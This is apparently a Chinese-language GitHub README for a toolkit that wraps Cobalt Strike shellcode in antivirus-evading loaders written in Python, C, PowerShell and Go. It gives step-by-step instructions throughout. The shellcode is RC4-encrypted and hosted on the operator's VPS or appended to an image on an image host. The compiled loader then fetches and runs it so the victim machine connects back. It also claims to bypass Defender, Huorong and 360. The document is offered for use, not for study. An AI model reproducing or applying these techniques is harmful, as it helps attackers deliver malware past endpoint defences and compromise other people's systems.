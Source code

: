 # CS-Avoid-killing
CS免杀,包括python版和C版本的(经测试Python打包的方式在win10上存在bug,无法运行,Win7测试无异常

V1.0: 目前测试可以过Defender/火绒的静杀+动杀,360还没测= =不想装360全家桶了,可以自行测试

下一步开发计划:

V1.5: 加入C版本CS免杀(已完成)

V1.7:加入Powershell的免杀(已完成)

~~V2.0:开发出UI界面~~

V2.0: 开发成在线免杀平台(已完成)

> PS: 在实际使用中发现图形化界面不利于和其他工具结合,相比之下命令行的方式更具有扩展性
> 
> 关于自己写的在线免杀平台,暂不考虑开源,主要是觉得目前的技术还比较薄弱,如果有师傅想体验可以联系我

V3.0: 想办法结合更多免杀技术(想去研究下进程注入/文件捆绑,不知道免杀效果怎样)

- V3.1 增加了go版本(可过火绒/360/defender)

## 依赖环境

python: 

- python2
- pyinstaller
- requests

C: VS2019默认就够了

Powershell: Win10上测试没有问题,也就是ps5.1,更低版本未测试

go: go

## 安装

`git clone https://github.com/Gality369/CS-Avoid-killing.git`

## 使用

1. 先通过CS生成C格式的shellcode:` Attacks -> packages -> Payload Generator `选择一个listener然后生成一个C的shellcode(其实就是二进制代码)

2. Python版:

   > 1. 将生成的shellcode填入generator.py的shellcode变量中,填入一个Key,用于后续的RC4加密
   > 2. 运行generator.py,生成的payload自动保存在payload.txt中.
   > 3. 将payload.txt上传到你的VPS中,后续生成的加载器会从VPS中获取加密shellcode并在本地解密后执行
   > 4. 将在VPS上的payload路径填入PyLoader.py的url变量中,填入你刚刚设置的Key
   > 5. 用`python pyinstaller.py -F -w PyLoader.py`打包文件,可执行文件在pyshellcode文件夹下的dist中,双击运行可以看到主机上线

3. C版本:

   > 1. 按要求填入你自己的Key,shellcdoe长度和shellcode,执行
   > 2. 将第一行的数字复制进Loader的Base64ShellLen字段中,将第二行生成的加密shellcode保存在payload.txt文件中并将其放在服务器上(~~如果不叫这名或者不在跟路径,需要自己改`char request[1024] = "GET /RC4Payload32.txt HTTP/1.1\r\nHost:";`中的路径)
   > 在path中填入可以访问到payload的路径即可(Ex: /test/payload.txt)
   > 3. 在Loader中填入自己的Key和VPS的IP,编译
   > 4. 执行编译出的exe,CS上线
   
4. Powershell版本:

   > 1. 在CS中生成Powershell版本的payload.ps1
   > 2. Python3 PSconfusion.py payload.ps1 AVpayload.ps1
   > 3. 经测试能过目前所有杀软的静杀,动杀的话,由于CS中有些模块不免杀,所以加载这些模块时可能会触发动杀,这个以后再研究怎么绕过
   
5. go版本:

   > 1. 将一张不要太大的图片放入同一文件夹下
   > 2. 将生成的shellcode填入generator.py的shellcode变量中, 执行`python generator YourRC4key ImageName` ,生成的shellcode会自动追加到图片末尾
   > 3. 将图片上传至图床(找那种不会压缩的图床,保证shellcode不会被删掉)
   > 4. 将图片url和你的RC4key填入CS-Loader.go的相应位置
   > 5. 使用命令`go build -ldflags="-H windowsgui" CS-Loader.go`生成exe,可以用upx压缩下
   > 6. 执行exe,CS上线

## 注意

1. pyinstaller安装细节

   > 最后一个支持python2的版本是3.6(最新版pyinstall不再支持python2)
   >
   > 网址:https://github.com/pyinstaller/pyinstaller/releases
   >
   > 需要安装pywin32:https://github.com/mhammond/pywin32

2. ~~目标是什么环境就在什么环境上打包,否则可能会出现无法上线的情况,不推荐使用py3对项目进行改造,ctypes对py3的支持不太好,会有些莫名其妙的bug~~
    感谢KingSF5师傅对python3版本的修复(崇拜~)

3. 经过测试,C版本在X86Debug模式编译下无任何问题,Release模式下会存在莫名bug,在某些电脑上无法正常上线,请根据需求自行测试

4. 编译选项不要选择动态编译,否则可能会因为目标靶机上缺少相应dll而无法运行.

5. 加载ps脚本的方式这里不做讨论,有师傅已经总结的非常好了,请自行百度

6. go版本build前建议先`set GOARCH=amd64`,同时使用64位的shellcode,32位打包出来的程序会报一个在ntdll中找不到函数的错误,曾有人提问过:https://stackoverflow.com/questions/58649055/failed-to-find-rtlcopymemory-procedure-in-ntdll-dll-only-when-goarch-386
